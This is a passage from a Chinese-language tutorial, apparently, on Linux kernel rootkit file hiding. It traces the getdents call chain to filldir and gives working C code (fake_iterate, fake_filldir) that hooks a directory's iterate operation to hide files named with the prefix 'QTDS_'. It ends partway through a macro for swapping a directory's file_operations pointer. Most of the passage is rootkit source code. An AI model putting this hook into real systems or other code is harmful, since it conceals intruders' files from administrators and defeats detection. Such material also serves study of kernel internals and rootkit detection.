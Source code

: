dir_emit 的定义

```
/* https://elixir.bootlin.com/linux/v4.15/source/include/linux/fs.h#L3366 */
static inline bool dir_emit(struct dir_context *ctx,
			    const char *name, int namelen,
			    u64 ino, unsigned type)
{
	return ctx->actor(ctx, name, namelen, ctx->pos, ino, type) == 0;
}
```

最终看到，dir_emit 中调用了ctx->actor，也就是之前分析的filldir。

整个调用流程如下：

```
sys_getdents -> iterate_dir -> struct file_operations.iterate ->  中间省略 -> struct dir_context.actor(也就是filldir)
```

因此文件隐藏钩子的思路是 hook 相应目录的 iterate，把 dir_context 的 actor 改为 fake_filldir，fake_filldir 把需要隐藏的文件过滤。 

```
int fake_iterate(struct file *filp, struct dir_context *ctx)
{
    // 备份真的 ``filldir``，以备后面之需。
    real_filldir = ctx->actor;

    // 把 ``struct dir_context`` 里的 ``actor``，
    // 也就是真的 ``filldir``
    // 替换成我们的假 ``filldir``
    *(filldir_t *)&ctx->actor = fake_filldir;

    return real_iterate(filp, ctx);
}
#define SECRET_FILE "QTDS_"
int fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
        // 如果是需要隐藏的文件，直接返回，不填到缓冲区里。
        printk("Hiding: %s", name);
        return 0;
    }
    // 如果不是需要隐藏的文件，
    // 交给的真的 ``filldir`` 把这个记录填到缓冲区里。
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
```

最后是一个宏，来替换指定目录下的iterate

```
#define set_f_op(op, path, new, old)    \
    do{                                 \
        struct file *filp;              \
        struct file_operations *f_op;   \
        printk("Opening the path: %s.\n", path);    \
        filp = filp_open(path, O_RDONLY, 0);        \
        if(IS_ERR(filp)){                           \
            printk("Failed to open %s with error %ld.\n",   \
                path, PTR_ERR(filp));                       \
            old = NULL;                                     \
        }                                                   \
        else{                                               \
            printk("Succeeded in opening: %s.\n", path);    \
            f_op = (struct file_operations *)filp->f_op;    \
            old = f_op->op;                                 \
```